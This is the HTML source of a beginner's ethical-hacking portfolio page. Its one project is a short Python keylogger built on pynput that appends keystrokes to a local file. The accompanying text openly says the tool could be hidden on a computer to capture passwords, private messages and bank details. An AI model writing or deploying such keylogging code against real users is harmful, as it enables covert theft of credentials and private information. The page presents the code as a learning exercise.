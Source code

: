  <html>
  <head>
     <link rel="stylesheet" href="index.css">
  </head>
   <body>
    <Header id="section-Expo"> 
      <img class="img_Me" src="images/8626f4a9-f60a-4198-b2f0-02b9067687d1.jpeg" width="300"/>
     <div class="Expo-MeDiv">
      <p class="Expo_Me" >Hello, I am a young inspiring pen tester that wants to make a spot in industry, every since I gotten the idea of ethical hacking i've been try to learn and gain experience of looking and exporting vulnerabilities online, this portfolio will show what experience and skills I learned over the time in the internet, from trustrd websites that teaches you how to use kali Linux for pen testimg websites and files, to my cyber security class that teches me the basics of the subjet, to on hand experience of what I learned and trying to find vulnerabilities all over in the web, I will show my skills to anyone reading this page to prevail my career. </p>
     </div>
    </Header>

<div class="Projets_section">
   <h1 class="Projets_title">---Projets---</h1>
</div>

<div class="Projets_name">
 <h2>KeyLogger</h2>
 <h2>Made and Updated by: 3/18/2025--3/18/2025</h2>
</div>

<div class="Projets_imgAndDet">
 <div class="Code_keylog>
  <img src="images/keylogger-768x403.png" width="450" height="350" />
  <code>
   from pynput import keyboard


def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
        if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')


if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
  </code>
 </div>

 <details>
  <h3>Technical Details</h3>
  <ul style="list-style-type:square">
   <li><strong>Programming Language:</strong>Python</li>
   <li><strong>Frameworks/Libraries:</strong>Pynput</li>
   <li><strong>Key Features:</strong>
    <ul style="list-style-type:square">
     <li>Cross-platform support (Windows, macOS, Linux)</li>
     <li>Simple API for listening to keyboard events</li>
     <li>Ability to simulate keyboard input</li>
    </ul>
   </li>
  </ul>
 </details>
</div>

<div class="Projets_Expo">
 <p>Before I start, I obtained this Keylogger from a YouTube tutorial, As a beginner, I try to learn from resources that are readily available to me. That way, I can understand how things work on my own without constantly needing to seek help. So I have added 2 new modifications to impove on less confusion in the log, but too the point, this is a basic Keylogger that records keystrokes that have been pressed, this can be used of course to be hidden into a computer and log any sensitive information that was typed on said computer, like emails with passwords, private text messages, Bank info, and more. Here I will break down my simple code.</p>

</div>
  </body>
 </html>
